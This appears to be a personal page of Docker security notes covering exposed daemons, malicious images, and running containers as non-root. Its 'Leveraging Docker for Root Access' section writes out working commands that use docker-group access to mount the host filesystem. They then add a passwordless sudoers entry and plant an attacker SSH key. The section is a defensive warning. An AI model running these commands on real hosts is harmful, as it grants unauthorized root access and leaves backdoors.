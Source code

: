 Docker Security Notes
=====================

* [Overview](README.md) | [Install/Config](config.md) | [Image Build](image.md)
  | [Security](security.md) | [Tips](tips.md)

Secure Your Server and Be Careful of Malicious Images
-----------------------------------------------------

There are automated bots that scan for Docker daemons to exploit; if
you leave a port open you will get 0wned. (See 'Leveraging Docker for
Root Access' below.) The default standalone config uses only a Unix
socket, but management systems may open stuff further.

Malicious images are also a problem, and, despite Docker doing
security scanning, may be left up on [Docker Hub] for a year or more.

For details, see:
* [Cryptojacking invades cloud. How modern containerization trend is
  exploited by attackers][kromtech]


Leveraging Docker for Root Access
---------------------------------

On many systems the Docker daemon socket is owned by group `docker`
and group members have write access to the socket. It's tempting to
add users to this group so they need not `sudo docker`; don't do this!

Anybody with access to the Docker daemon socket can easily leverage
this for root access on the host using the technique below. Thus, if
you're giving someone this access, make it explicit and clear by
putting them in the `sudo` group instead.

    #   On the host, start a Docker container with a root shell
    #   that has access to all files on the host.
    docker run -it --rm --name root -v /:/host:rw alpine /bin/sh -l

    #   You are now running as root user in the docker container.
    #   Allow user `taro` to sudo to a root shell with no password.
    cd /host/etc/sudoers.d
    echo 'taro ALL=(ALL) NOPASSWD:ALL' > 50-taro
    chmod 600 50-taro
    exit

    #   Or, more subtly, if another user has sudo without password:
    cat >> /host/home/adminuser/.ssh/authorized_keys
    ssh-rsa AAAA.... ur@hacked.com
    ^D

The same of course applies to making the Docker daemon socket available
to any account (root or not) inside a container.

Also see [lvh blog] for more details and a video.

User/UID in Container
---------------------

By default Docker container processes are started as UID 0 (user
`root`), relying on the container protection to isolate the process.
It's considered better practice (though not so often done, except by
some hosting services that enforce this) to run as a different user in
the container. (This can be set with `USER` in the `Dockerfile` or
`docker run -u`.) An alternative is to use user namespaces to map
`root` in the container to a different user on the host.

When using `USER` in a `Dockerfile`, note that this affects the build
of images using that image as a base image. Generally they'll have to
user another `USER` to change back to root to install further packages
or whatever, and then change back again later. Also note that hosting
services may override the `USER` with their own `docker run -u` option,
particularly if you give a username instead of UID.

When using a different user in the container, the main problem that
usually crops up is lack of an `/etc/passwd` entry for the user.
(OpenSSH, for example, will refuse to run in this circumstance.)
[`nss_wrapper`] can be used to work around this, if you install it in
your container and use appropriate wrapper scripts or similar to
supply the following environment. You must supply both passwd and
group; it won't work with just passwd.

    LD_PRELOAD=/usr/lib/libnss_wrapper.so
    NSS_WRAPPER_PASSWD=/path/to/custom/passwd
    NSS_WRAPPER_GROUP=/path/to/custom/group

This series of posts by Graham Dumpleton is a detailed exploration of
root and non-root users in Docker containers.
* [Running IPython as a Docker container under OpenShift.][dscpl151218]  
  Why is the `jupyter/notebooks` image breaking when run on OpenShift?
  Because OpenShift doesn't run it as root.
* [Don't run as root inside of Docker containers.][dscpl151218a]  
  Example of leveraging root in a container to get root access on the host.
* [Overriding the user Docker containers run as.][dscpl151222]  
  `USER` directive in Dockerfile; `run -u` option.
* [Random user IDs when running Docker containers.][dscpl151223]  
  How to handle not knowing the UID of your container.
  Working when GID is 0 and umask settings.
* [Unknown user when running Docker container.][dscpl151224]  
  Using `nss_wrapper`.
* [Issues with running as PID 1 in a Docker container.][dscpl151229]



[Docker Hub]: https://hub.docker.com/explore/
[`nss_wrapper`]: https://cwrap.org/nss_wrapper.html
[dscpl151218]: http://blog.dscpl.com.au/2015/12/running-ipython-as-docker-container.html
[dscpl151218a]: http://blog.dscpl.com.au/2015/12/don-run-as-root-inside-of-docker.html
[dscpl151222]: http://blog.dscpl.com.au/2015/12/overriding-user-docker-containers-run-as.html
[dscpl151223]: http://blog.dscpl.com.au/2015/12/random-user-ids-when-running-docker.html
[dscpl151224]: http://blog.dscpl.com.au/2015/12/unknown-user-when-running-docker.html
[dscpl151229]: http://blog.dscpl.com.au/2015/12/issues-with-running-as-pid-1-in-docker.html
[kromtech]: https://kromtech.com/blog/security-center/cryptojacking-invades-cloud-how-modern-containerization-trend-is-exploited-by-attackers
[lvh blog]: https://www.lvh.io/posts/dont-expose-the-docker-socket-not-even-to-a-container.html
